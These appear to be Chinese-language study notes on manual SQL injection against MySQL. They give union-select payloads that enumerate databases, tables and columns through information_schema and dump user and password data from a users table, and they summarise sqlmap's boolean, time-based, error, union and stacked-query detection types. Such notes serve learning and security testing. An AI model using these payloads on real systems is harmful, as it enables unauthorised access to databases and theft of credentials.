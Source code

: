     









## 手注

[简书，sql一些函数总结，精简结合实例易理解](https://www.jianshu.com/p/fcc5d8e69d68)

[简书手注初级保姆级流程**](https://www.jianshu.com/p/54b630f1ec35)

1. 探测字段数：用1，2，3测，或order by2（测是不是两个字段）/3（测三个）
2. Mysql安装后默认会创建三个数据库：information_schema、mysql和test


###利用information库手注
3. 获取当前数据库用户【假设字段为2】
```
1' union select user(),2 #
```
4. 获取所有数据库名称【information_schema库下的schemata表中保存着DBMS中的所有数据库名称信息】
```
1' union select 1,schema_name from information_schema.schemata #
```

5. 获取当前数据库下**所有表名**
```
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```
6. 获取表中所有列名
```
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
```
7. 导出具体数据
- 一次性获取users表中**所有行的**user和password数据，用符合'--'连接每一组中user和password，每一组"user--password"又分别用逗号隔开，集中在一起输出结果
```
1' union select 1,group_concat(concat_ws('--',user,password)) from users #
```
- 或者分别获取每一行数据
```
1' union select 1,concat_ws('--',user,password) from users #
```

### 注入类型
sqlmap 支持5种漏洞检测类型:

- 基于布尔的盲注检测  (如果一个url的地址为xxxx.php?id=1,那么我们可以尝试下的加上 and 1=1(和没加and1=1结果保持一致) 和 and 1=2(和不加and1=2结果不一致),则我们基本可以确定是存在布尔注入的. )
- 基于时间的盲注检测(和基于布尔的检测有些类似.通过mysql的 sleep(int)) 来观察浏览器的响应是否等待了你设定的那个值 如果等待了,则表示执行了sleep,则基本确定是存在sql注入的
- 基于错误的检测 (组合查询语句,看是否报错(在服务器没有抑制报错信息的前提下),==如果报错 则证明我们组合的查询语句特定的字符被应用了==,如果不报错,则我们输入的特殊字符很可能被服务器给过滤掉(也可能是抑制了错误输出.))
- 基于union联合查询的检测(适用于如果某个web项目对查询结果只展示一条而我们需要多条的时候 则使用union联合查询搭配concat还进行获取更多的信息)
-  基于堆叠查询的检测(首先看服务器支不支持多语句查询,一般服务器sql语句都是写死的,某些特定的地方用占位符来接受用户输入的变量,这样即使我们加and 也只能执行select(也不一定select,主要看应用场景,总之就是服务端写了什么,你就能执行什么)查询语句,如果能插入分号;则我们后面可以自己组合update,insert,delete等语句来进行进一步操作)

